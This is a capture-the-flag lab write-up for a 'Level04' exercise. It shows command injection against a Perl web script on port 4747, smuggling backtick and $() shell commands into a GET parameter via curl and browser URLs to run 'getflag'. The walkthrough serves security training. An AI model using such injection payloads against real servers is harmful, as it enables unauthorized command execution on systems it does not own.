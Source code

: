 # Level04 Exploitation

## Objective
Exploit the web server running on `localhost:4747` to execute the `getflag` command with `flag04` permissions.

## Steps

### Step 1: Identify the Perl Script
Navigate to the `/home` directory and locate the Perl script `level04.pl`:

```bash
cd /home
cat level04.pl
```

### Step 2: Understand the Script
Examine the Perl script (`level04.pl`) to understand its functionality. Note that it prints the parameter `x` of a GET request on port `4747`.

### Step 3: Exploit the Script
Use `curl` to exploit the script and execute the `getflag` command:

```bash
curl http://localhost:4747?x=\`getflag\`
```

Or use the alternative syntax:

```bash
curl http://localhost:4747?x='$(getflag)'
```

These commands will execute `getflag` as the user `flag04` and display the result.

### Step 4: Verify the Flag
Open a web browser and enter either of the following URLs:

- [http://192.168.56.2:4747/?x=`getflag`](http://192.168.56.2:4747/?x=`getflag`)
- [http://192.168.56.2:4747/?x=$(getflag)](http://192.168.56.2:4747/?x=$(getflag))

You should see the flag displayed.

Congratulations! You've successfully exploited the web server to execute the `getflag` command with `flag04` permissions.
